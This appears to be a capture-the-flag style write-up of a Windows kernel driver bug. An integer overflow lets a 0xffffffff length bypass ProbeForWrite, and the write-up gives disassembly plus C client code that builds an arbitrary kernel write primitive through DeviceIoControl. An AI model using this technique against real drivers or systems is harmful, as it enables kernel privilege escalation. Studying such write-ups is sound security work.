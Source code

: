 ### Vulnerability

The length of the data is specified by the user. `unprotect` function is vulnerable to an integer overflow. If the length provided by the user is 0xffffffff, then the len argument of `ProbForWrite` becomes 0xffffffff+1 = 0x0. `ProbForWrite` doesn't check the pointer passed as argument if the length argument is 0, thus kernel addresses pass the check.
```
; rbx = 0xffffffff+1 = 0x100000000    edx = 0x0
00000000000011DC      lea     edx, [rbx+1]    ; Length    
00000000000011DF      lea     r8d, [rsi+1]    ; Alignment
00000000000011E3      call    cs:ProbeForWrite
```

### Exploitation

We can get an arbitary write with the ProbeForWrite bypass in `unprotect`.

Client code for arbitary write:
```c
int action(int IOCTL_CODE, char* data, int len) {
	DWORD returned;
	BOOL success;
	success = DeviceIoControl(hDevice,
		IOCTL_CODE,
		NULL, NULL,
		nullptr, 0,
		&returned, nullptr
	);
	if (!success) {
		printf("failed");
		return -1;
	}

	success = DeviceIoControl(hDevice,
		IOCTL_ACT,
		data, len,
		nullptr, 0,
		&returned, nullptr
	);
	if (!success) {
		printf("failed");
		return -1;
	}

	return 1;
}

int ArbWrite(char * where, char * what, int len) {
	action(IOCTL_PROTECT, what, len);
	action(IOCTL_UNPROTECT, where, 0xffffffff);
	return 1;
}
```
